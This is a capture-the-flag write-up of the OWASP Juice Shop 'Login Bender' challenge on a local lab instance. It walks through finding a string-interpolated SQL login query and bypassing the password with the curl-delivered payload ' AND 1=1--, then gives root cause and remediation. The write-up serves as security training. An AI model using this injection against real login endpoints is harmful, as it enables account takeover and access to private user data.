




# Login Bender

## Challenge Information

* **Category:** Injection
* **Challenge:** Login Bender
* **Difficulty:** 3
* **Goal:** Log in with Bender's user account.
* **Target:** `http://127.0.0.1:42000/rest/user/login`

---

## 1. Reconnaissance / Discovery

### 1.1 Identify the Login Endpoint

The challenge requires logging into an existing user account, so the first step was to identify how authentication is handled.

The login endpoint is:

```text
POST /rest/user/login
```

The endpoint accepts JSON containing an email and password.

A baseline request was made using Bender's known email with an incorrect password:

```bash
curl -i -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"bender@juice-sh.op","password":"wrongpassword"}'
```

The application returned:

```text
HTTP/1.1 401 Unauthorized
```

This established the expected authentication behavior when valid credentials are not supplied.

---

### 1.2 Discover Bender's Account

The application's static user data was inspected to identify Bender's account.

The following command was used:

```bash
grep -Rni -C 8 --include='*.yml' --include='*.yaml' "key: bender" \
  /var/lib/juice-shop/data
```

The result identified Bender's account with:

```text
email: bender
key: bender
role: customer
```

Juice Shop appends the application domain to the email, giving the target account:

```text
bender@juice-sh.op
```

The password was deliberately not used because the challenge clues indicate that the intended attack is an injection-based login bypass.

---

## 2. Attack Surface

### Login Request

The login request contains two user-controlled parameters:

```json
{
  "email": "bender@juice-sh.op",
  "password": "wrongpassword"
}
```

The `email` parameter was selected for testing because authentication queries commonly use the supplied email as part of the database lookup.

---

## 3. Source Code Analysis

The login route was inspected with:

```bash
grep -Rni -C 15 "loginBenderChallenge" \
  /var/lib/juice-shop/routes \
  /var/lib/juice-shop/build \
  /var/lib/juice-shop/models 2>/dev/null | head -200
```

The relevant login query in:

```text
/var/lib/juice-shop/routes/login.ts
```

constructs SQL using the supplied email directly:

```ts
models.sequelize.query(
  `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`,
  { model: UserModel, plain: true }
)
```

The `email` value is therefore inserted directly into the SQL statement without parameterization.

The challenge verification also confirms that successful authentication must correspond to Bender's actual user account:

```ts
challengeUtils.solveIf(challenges.loginBenderChallenge, () => {
  return user.data.id === users.bender.id
})
```

This means the objective is not simply to authenticate as an arbitrary user; the authenticated account must be Bender.



---

## 4. SQL Injection Validation

A single quote was appended to Bender's email to determine whether the parameter was being interpreted as part of the SQL query:

```bash
curl -i -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"bender@juice-sh.op'\''","password":"wrongpassword"}'
```

The server returned:

```text
HTTP/1.1 500 Internal Server Error
```

The response exposed a SQLite/Sequelize database stack trace.

This behavior demonstrated that the supplied email value was affecting the underlying SQL statement and confirmed that the login parameter was injectable.



---

## 5. Exploitation

After confirming SQL injection, a targeted boolean condition was introduced into the email parameter:

```text
bender@juice-sh.op' AND 1=1-- 
```

The request was:

```bash
curl -i -s 'http://127.0.0.1:42000/rest/user/login' \
  -H 'Content-Type: application/json' \
  --data '{"email":"bender@juice-sh.op'\'' AND 1=1-- ","password":"wrongpassword"}'
```

The important part of the payload is:

```text
' AND 1=1-- 
```

The quote closes the original SQL string.

```text
AND 1=1
```

adds a condition that evaluates to true.

```text
-- 
```

comments out the remainder of the SQL statement, including the password comparison.

The application returned:

```text
HTTP/1.1 200 OK
```

and issued an authentication token even though the supplied password was deliberately incorrect.

The token was redacted from the evidence to prevent exposing an active authentication credential.



---

## 6. Challenge Verification

The challenge state was verified through the Juice Shop API:

```bash
curl -s http://127.0.0.1:42000/api/Challenges \
  | jq -r '.data[] | select(.key=="loginBenderChallenge") | "\(.name) | solved=\(.solved)"'
```

The result was:

```text
Login Bender | solved=true
```

This confirms that the authenticated account was Bender's account and that the challenge was successfully completed.



---

## 7. Security Impact

The vulnerable login implementation allows an attacker to manipulate the SQL query through the email parameter.

An attacker who can reach the login endpoint could potentially bypass password authentication and authenticate as a targeted user.

In a real application, this could result in:

* Unauthorized account access
* Account takeover
* Exposure of private user information
* Access to functionality available to the compromised account
* Potential privilege escalation if a privileged account were targeted

The impact depends on the privileges associated with the targeted account.

---

## 8. Root Cause

The root cause is **SQL injection caused by constructing a SQL query with unsanitized user input**.

The application directly interpolates the submitted email into the SQL statement:

```ts
`SELECT * FROM Users WHERE email = '${req.body.email || ''}' ...`
```

This allows attacker-controlled input to modify the structure and logic of the SQL query.

The password comparison is also incorporated into the same dynamically constructed query, allowing the injected comment syntax to prevent the password condition from being evaluated.

---

## 9. Remediation

The login query should use parameterized queries or Sequelize's query-building mechanisms rather than string concatenation.

Conceptually, instead of:

```ts
`SELECT * FROM Users WHERE email = '${email}' ...`
```

the application should use a parameterized query where the email is treated strictly as data.

Additional protections should include:

* Parameterized SQL queries
* Server-side input validation
* Avoiding raw SQL where an ORM query can safely perform the operation
* Generic authentication error messages
* Appropriate logging and monitoring of suspicious authentication attempts
* Rate limiting on authentication endpoints

---

## 10. Lessons Learned

This challenge demonstrates why authentication endpoints are high-value targets during web application testing.

The important workflow was:

```text
Identify authentication endpoint
        ↓
Establish normal login behavior
        ↓
Identify target account
        ↓
Inspect authentication implementation
        ↓
Test for SQL injection
        ↓
Confirm database error
        ↓
Construct targeted injection
        ↓
Authenticate without the password
        ↓
Verify challenge state
```

The key lesson is that knowing a username or email is enough to establish a target, but the real vulnerability comes from how that input is processed by the backend.

A login form should never be assumed to be secure simply because it requires a password. The underlying authentication logic must also be tested for injection and other authentication-bypass conditions.

---

## 11. Conclusion

The **Login Bender** challenge was solved by identifying SQL injection in the login email parameter and using a targeted boolean-based injection to bypass the password condition.

The vulnerability was confirmed through the application's SQLite/Sequelize error response, and successful exploitation was verified when the Juice Shop API reported:

```text
Login Bender | solved=true
```

The challenge demonstrates how unsafe SQL construction can turn a normal authentication mechanism into an authentication-bypass vulnerability.
